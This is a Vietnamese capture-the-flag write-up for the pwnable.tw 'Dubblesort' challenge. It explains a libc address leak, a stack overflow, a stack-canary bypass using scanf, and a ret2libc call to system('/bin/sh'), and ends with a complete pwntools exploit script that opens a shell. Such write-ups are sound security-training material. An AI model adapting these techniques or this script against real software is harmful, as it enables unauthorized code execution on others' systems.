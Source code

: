 # Dubblesort \[200pts\] (pwnable.tw)



> Sort the memory!
>
> `nc chall.pwnable.tw 10101`
>
> [dubblesort](https://github.com/th3-5had0w/writeups/raw/main/dubblesort%5Bpwnable.tw%5D/dubblesort)
>
> [libc.so](https://github.com/th3-5had0w/writeups/raw/main/dubblesort%5Bpwnable.tw%5D/libc_32.so.6)

[Phiên bản libc local (Ubuntu 20.04)](https://github.com/th3-5had0w/writeups/raw/main/dubblesort%5Bpwnable.tw%5D/local_libc.so.6)

## Những đoạn code cần lưu ý

### 1) Leak libc

![pic1](https://github.com/th3-5had0w/writeups/blob/main/dubblesort%5Bpwnable.tw%5D/res/pic_1.png)

#### Ở đây chương trình đọc input vào nhưng không chặn chuỗi bằng nullbyte (`\x00`) => Ta có thể nhập các kí tự để hàm printf leak được địa chỉ của libc.

![pic3](https://github.com/th3-5had0w/writeups/blob/main/dubblesort%5Bpwnable.tw%5D/res/pic_3.png)

#### Mình đã nhập 8 chữ `a` kèm theo kí tự enter `\x0a`, và như ảnh trên thì có thể thấy địa chỉ chỉ libc rất gần với nơi ta nhập input. (1)
#### Ngoài ra kí tự enter của mình đã ghi đè lên byte nullbyte (`\x00`) của libc, mà printf sẽ in các bytes ra màn hình cho đến khi gặp kí tự nullbyte (`\x00`), vì kí tự enter của mình đã ghi đè lên 1 byte `\x00` của địa chỉ libc nên khi leak được bạn nhớ trừ đi `\x0a` (2)

#### Từ (1) và (2) => Ta có thể leak được libc.

#### Nhưng đây mới chỉ là địa chỉ libc nằm tại segment `.got.plt` đã được map, để tìm địa chỉ libc gốc thì ta phải lấy địa chỉ vừa leak được trừ đi địa chỉ chưa được map.

![pic7](https://github.com/th3-5had0w/writeups/blob/main/dubblesort%5Bpwnable.tw%5D/res/pic_7.png)

#### Ở đây address là 0x001eb000 vì mình đang readelf libc local của mình, có thể address ở libc bạn sẽ khác và address ở libc của remote server cũng sẽ khác.

```
địa chỉ libc gốc = địa chỉ libc đã leak - 0x001eb000 - 0x0a
```

### 2) Lỗi tràn bộ nhớ tại đoạn code nhập số lượng số mà ta muốn nhập vào

![pic2](https://github.com/th3-5had0w/writeups/blob/main/dubblesort%5Bpwnable.tw%5D/res/pic_2.png)

#### Ở đây v4 chính là con trỏ của v13, chương trình sẽ hỏi ta muốn nhập bao nhiêu số, sau mỗi một số nhập vào thì v4 sẽ tăng lên 1, có nghĩa là `vị trí của con trỏ tăng lên 4` vì kích cỡ của kiểu `int`, nhưng ở đây ta không hề thấy có một hàm hay dòng lệnh nào để kiểm tra => Khi tăng vị trí của con trỏ lên một kích cỡ nhất định (4\*n) thì ta sẽ gặp lỗi buffer overflow!

![pic4](https://github.com/th3-5had0w/writeups/blob/main/dubblesort%5Bpwnable.tw%5D/res/pic_4.png)

#### Nhưng ta gặp vấn đề là chương trình này có bật cơ chế `Stack Canary`.

![pic5](https://github.com/th3-5had0w/writeups/blob/main/dubblesort%5Bpwnable.tw%5D/res/pic_5.png)

#### Chương trình đọc input các số vào bằng hàm `scanf` nên ta có thể bypass dễ dàng bằng cách nhập các kí tự như `-, +,...` vào ô dữ liệu nơi chứa `Stack Canary`, cụ thể ở đây là ở số thứ 25.

![pic6](https://github.com/th3-5had0w/writeups/blob/main/dubblesort%5Bpwnable.tw%5D/res/pic_6.png)

#### Như trên hình thì không hề có cảnh báo `*** stack smashing detected ***`, vậy là ta đã bypass được `Stack Canary`.

### 3) Kết luận

#### Vậy là ta đã leak được libc và bypass được `Stack Canary` để điều khiển con trỏ `RIP`.

#### Đây là chương trình chạy kiến trúc x86 nên theo calling convention của nó ta sẽ truyền vào `RIP` theo thứ tự:

```
[RIP] = địa chỉ của hàm system
[RIP+4] = tùy ý (đây là return pointer của hàm system, sau hàm system thì ta không cần return về đâu nữa vì đã có shell)
[RIP+8] = địa chỉ của chuỗi /bin/sh (đây chính là tham số đầu tiên của hàm system)
```

#### Ta cũng cần lưu ý về cơ chế sort của chương trình để tránh giá trị của canary bị sửa đổi ngoài ý muốn.

#### Nhưng ở đây thì canary, địa chỉ của hàm system và địa chỉ của chuỗi /bin/sh đã được nhập vào theo thứ tự từ nhỏ đến lớn ngay từ đầu.

#### Vậy là ta đã exploit thành công chương trình. Đây là code exploit của mình:
```python
from pwn import *

debug = False

if (debug):
    io = process('./dubblesort')
    libc = ELF('/lib/i386-linux-gnu/libc.so.6')
    offset = 0x001eb000
else:
    io = remote('chall.pwnable.tw', 10101)
    libc = ELF('libc_32.so.6')
    offset = 0x001b0000

print(io.recv())

# ----- leak libc ở local và ở remote vì phiên bản libc khác nhau -----

if (debug):
    io.sendline(b'aaaaaaaa')
    print('trash: ', io.recv(14))
else:
    io.sendline(b'aaaaaaaaaaaaaaaaaaaaaaaa')
    print('trash: ', io.recv(30))
info = io.recv(4)
print('raw: ', info)
virtual_libc = u32(info)-0xa
print('leaked: ', hex(virtual_libc))
print('trash: ', io.recv())
libc.address = virtual_libc - offset
print('base libc addr: ', hex(libc.address))
print('system: ', hex(libc.sym['system']))
print('bin/sh: ', hex(next(libc.search(b'/bin/sh'))))

# ---------------------------------------------------------------------

io.sendline(b'35')
for i in range(24):
    print(io.recv())
    io.sendline(b'0')

# ----- bypassing stack canary -----

print(io.recv())
io.sendline(b'-')

# ----------------------------------

for i in range(32-25):
    print(io.recv())
    io.sendline(str(libc.sym['system']))

# ----- điều khiển con trỏ RIP theo calling convention của cấu trúc x86 system_address -> return_address -> argument -----

print(io.recv())
print('New RIP value: ', libc.sym['system'])
io.sendline(str(libc.sym['system']))

print(io.recv())
print('Sending /bin/sh: ', next(libc.search(b'/bin/sh')))
io.sendline(str(next(libc.search(b'/bin/sh'))))
print(io.recv())
print('Sending /bin/sh: ', next(libc.search(b'/bin/sh')))
io.sendline(str(next(libc.search(b'/bin/sh'))))

# ------------------------------------------------------------------------------------------------------------------------

print(io.recv())
io.interactive()
```
